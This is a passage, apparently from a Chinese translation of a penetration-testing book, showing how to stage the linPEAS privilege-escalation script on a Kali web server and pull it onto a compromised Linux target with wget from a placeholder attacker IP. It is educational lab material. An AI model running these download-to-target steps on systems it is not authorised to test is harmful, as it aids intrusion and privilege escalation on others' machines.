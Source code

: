 ](Images/B17389_13_006.jpg)

图 13.6 – linPEAS Bash 脚本

下载完 Bash 脚本到我们的 Kali 虚拟机后，我们需要将**linpeas.sh**文件传输到我们的目标虚拟机。由于没有 Meterpreter 会话，这不能自动完成。因此，我们需要使用 Linux 特定的工具来下载该二进制文件。

为了将**linpeas.sh**文件传输到我们的目标系统，我们需要在 Kali 虚拟机上设置一个 Web 服务器，用于托管该文件。这样，我们就可以在目标系统上下载它。可以通过以下步骤来完成：

1.  为了在我们的 Kali 虚拟机上设置一个 Web 服务器，我们可以利用**SimpleHTTPServer** Python 模块来提供脚本。可以通过在存储**linpeas.sh**二进制文件的目录中运行以下命令来实现：

    **sudo python -m SimpleHTTPServer 80**

    注意

    **SimpleHTTPServer**是一个适用于 Python2 的 Python 模块，对于 Python3，它也以**http.server**的形式提供。

    如下截图所示，**SimpleHTTPServer**模块将在 Kali 虚拟机的 IP 地址上通过**80**端口提供该目录中的文件：

    ![图 13.7 – SimpleHTTPServer linpeas](img/B17389_13_007.jpg)

    ](Images/B17389_13_007.jpg)

    图 13.7 – SimpleHTTPServer linpeas

1.  为了在目标系统上下载**linpeas.sh**文件，我们可以使用**wget**工具。然而，在下载该二进制文件之前，我们需要导航到一个有读写权限的目录。在这种情况下，我们将导航到临时目录，如下截图所示：![图 13.8 – Linux 临时目录](img/B17389_13_008.jpg)

    ](Images/B17389_13_008.jpg)

    图 13.8 – Linux 临时目录

1.  我们现在可以使用**wget**工具从 Kali 虚拟机下载文件到我们的目标系统。可以通过在目标系统上运行以下命令来实现：

    **wget http://<KALI-VM-IP>/linpeas.sh**

    输出如下所示：

![图 13.9 – wget linpeas](img/B17389_13_009.jpg)
